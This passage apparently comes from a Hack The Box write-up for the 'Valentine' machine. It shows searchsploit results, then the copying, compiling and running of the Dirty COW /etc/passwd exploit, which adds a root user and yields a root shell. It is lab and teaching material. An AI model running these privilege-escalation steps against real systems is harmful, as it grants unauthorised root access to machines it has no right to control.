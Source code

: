     Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                                        | exploits/linux/local/40838.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                                  | exploits/linux/local/40839.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                                         | exploits/linux/local/40611.c
    Quick and Dirty Blog (qdblog) 0.4 - 'categories.php' Local File Inclusion                                                                                                           | exploits/php/webapps/4603.txt
    Quick and Dirty Blog (qdblog) 0.4 - SQL Injection / Local File Inclusion                                                                                                            | exploits/php/webapps/3729.txt
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Shellcodes: No Result



After looking over a few, selected one that would add a root user to the
passwd file:



    root@kali# searchsploit -m exploits/linux/local/40839.c
      Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
          URL: https://www.exploit-db.com/exploits/40839/
         Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: ~/hackthebox/valentine-10.10.10.79/40839.c



Uploaded to the box, compile, and run:



    hype@Valentine:/dev/shm$ gcc -pthread dc.c -o c -lcrypt

    hype@Valentine:/dev/shm$ file c
    c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xe2dea237b60ba9dc122a44d0505f9796b0b8a159, not stripped
    hype@Valentine:/dev/shm$ chmod +x c
    hype@Valentine:/dev/shm$ ./c
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password:
    Complete line:
    firefart:fifdjzBMn8d5E:0:0:pwned:/root:/bin/bash

    mmap: 7f004ef9b000


    hype@Valentine:/dev/shm$ su firefart
    Password:

    firefart@Valentine:/dev/shm# id
    uid=0(firefart) gid=0(root) groups=0(root)







